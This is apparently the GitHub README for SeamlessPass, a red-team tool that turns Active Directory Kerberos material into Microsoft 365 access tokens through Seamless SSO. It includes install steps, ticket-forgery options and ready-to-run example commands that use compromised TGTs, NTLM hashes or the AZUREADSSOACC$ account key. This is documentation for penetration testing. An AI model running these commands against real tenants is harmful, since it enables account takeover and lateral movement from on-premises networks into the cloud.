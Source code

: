 # SeamlessPass
**Leveraging Kerberos tickets to get Microsoft 365 access tokens using Seamless SSO**

---

SeamlessPass is a tool designed to obtain Microsoft 365 access tokens using on-premises Active Directory Kerberos tickets for organizations with Seamless SSO (Desktop SSO) enabled. These tokens can be used for further interaction with Microsoft 365 services via APIs or other tools like ROADTools and AADInternals for more offensive capabilities.



## Installation

SeamlessPass can be installed using PyPI or from the source. After installation, the tool will be available using `seamlesspass` command. 

### Using PyPI

```bash
pip install seamlesspass
```

### From Source

1. Download source code (as archive or using `git clone https://github.com/Malcrove/SeamlessPass.git`)
2. Navigate to the code directory
3. Install using `pip install .`, or install requirements `pip install -r requirements.txt` then run directly using `python run.py`

## Usage

```bash

   _____                      _               _____
  / ____|                    | |             |  __ \      v(0.1)
 | (___   ___  __ _ _ __ ___ | | ___  ___ ___| |__) |_ _ ___ ___
  \___ \ / _ \/ _` | '_ ` _ \| |/ _ \/ __/ __|  ___/ _` / __/ __|
  ____) |  __/ (_| | | | | | | |  __/\__ \__ \ |  | (_| \__ \__ \
 |_____/ \___|\__,_|_| |_| |_|_|\___||___/___/_|   \__,_|___/___/

 By Abood Nour (@0xSyndr0me) - Malcrove (https://malcrove.com/)

Leveraging Kerberos tickets to get cloud access tokens using Seamless SSO

Usage: seamlesspass [-t tenant domain] [-r resource URI] [-c client_id] [-ignore-sso-check] [-d domain] [-dc DC host/IP] [-u username] [-p password] [-n [LMHASH:]NTHASH] [-aes AESKey] [-tgt base64 TGT / TGT file] [-tgs base64 TGS / TGS file] [-spn SPN] [-domain-sid SID] [-user-rid number] [-user-sid SID] [-adssoacc-ntlm [LMHASH:]NTHASH] [-adssoacc-aes AESKey] [-proxy [scheme]://[user:password]@[host]:[port]] [-ua USERAGENT] [-debug] [-no-color] [-h]

Microsoft 365 options:
  -t/-tenant tenant domain
                        Domain of the tenant (e.g. example.com, corp.onmicrosoft.com)
  -r/-resource resource URI
                        Target cloud service to be accessed (Default: https://graph.windows.net)
  -c/-client-id client_id
                        Microsoft 365 client ID (Default: 1b730954-1685-4b74-9bfd-dac224a7b894)
  -ignore-sso-check     Try to login using Seamless SSO even if it is not enabled

Authentication Options:
  -d/-domain domain
                        Local domain (e.g., corp.local)
  -dc/-dc-ip DC host/IP
                        Hostname or IP Address of the domain controller used for authentication (example: dc.corp.local, 10.0.1.2)
  -u/-username username
  -p/-password password
  -n/-ntlm [LMHASH:]NTHASH
                        User's NTLM hashed password, format is [LMHASH:]NTHASH
  -aes AESKey  User's AES 128/256 key
  -tgt base64 TGT / TGT file
                        base64-encoded Ticket-Granting Ticket (TGT) or path to TGT file (kirbi/ccache)
  -tgs base64 TGS / TGS file
                        base64-encoded Service Ticket (TGS) or path to TGS file (kirbi/ccache)
  -spn SPN     Target service principal name. (Default: HTTP/autologon.microsoftazuread-sso.com)

Ticket Forgery Options:
  -domain-sid SID
                        Domain Security Identifier
  -user-rid number
                        User Relative ID (Last part of user SID)
  -user-sid SID
                        User Security Identifier
  -adssoacc-ntlm [LMHASH:]NTHASH
                        NTLM hash of AZUREADSSOACC account (Used to forge TGS)
  -adssoacc-aes AESKey
                        AES 128/256 Key of AZUREADSSOACC account (Used to forge TGS)

Connection Options:
  -proxy [scheme]://[user:password]@[host]:[port]
                        NOTE: This is used only for HTTP requests not DC communication. (example: http://burp:8080)
  -ua/-user-agent USERAGENT
                        HTTP User agent used in interaction with Microsoft 365 APIs

Misc options:
  -debug                Turn debug output on
  -no-color             Turn off console colors
  -h/--help             Show this help message and exit.

Examples:
  seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_encoded_TGT>
  seamlesspass -tenant corp.com -tgs user_tgs.ccache
  seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -username user -ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF
  seamlesspass -tenant corp.com -domain corp.local -dc 10.0.1.2 -username user -password password
  seamlesspass -tenant corp.com -adssoacc-ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF -user-sid S-1-5-21-1234567890-1234567890-1234567890-1234
  seamlesspass -tenant corp.com -adssoacc-aes DEADBEEFDEADBEEFDEADBEEFDEADBEEF -domain-sid S-1-5-21-1234567890-1234567890-1234567890 -user-rid 1234
```

## Use Cases

SeamlessPass can be used to obtain access tokens for Microsoft 365 services for tenants with enabled Seamless SSO feature. The access tokens can be then fed to other tools like `ROADTools` and `AADInternals` for further enumeration or offensive capabilities. The tool can be very handy in various situations where the **cleartext password of the user is unavailable** but other forms of access are obtainable such as

- Using compromised user’s Ticket-Granting-Ticket (TGT) or forged Golden Ticket 
(*Interacts with DC)*
    
    ```bash
    seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_encoded_TGT>
    ```
    
- Using compromised user’s NTLM hash or AES key
(*Interacts with DC)*
    
    ```bash
    seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -username user -ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF
    ```
    
- Acquisition of AZUREADSSOACC$ account NTLM hash or AES key 
*(No interaction with DC is needed)*
    
    ```bash
    seamlesspass -tenant corp.com -adssoacc-ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF -user-sid S-1-5-21-1234567890-1234567890-1234567890-1234
    ```
    

## TODO

- [ ]  Support interactive Multiple-Factor Authentication (MFA)
- [ ]  ...?

## Contact

Please submit any bugs, issues, questions, or feature requests under "Issues" or send them to me on Twitter @0xSyndr0me

## Credits

Creation of this tool would have been much harder if it wasn’t for the awesome work and research by folks like

- [SecureAuthCorp](https://github.com/SecureAuthCorp) and all the [contributors](https://github.com/SecureAuthCorp/impacket/graphs/contributors) for [Impacket](https://github.com/SecureAuthCorp/impacket)
- [Dr. Nestori Syynimaa](https://twitter.com/DrAzureAD) for [AADInternals](https://github.com/Gerenios/AADInternals)
- [Oliver Lyak](https://twitter.com/ly4k_) for [Certipy](https://github.com/ly4k/Certipy)
- [Dirk-jan](https://twitter.com/_dirkjan) for [ROADTools](https://github.com/dirkjanm/ROADtools)
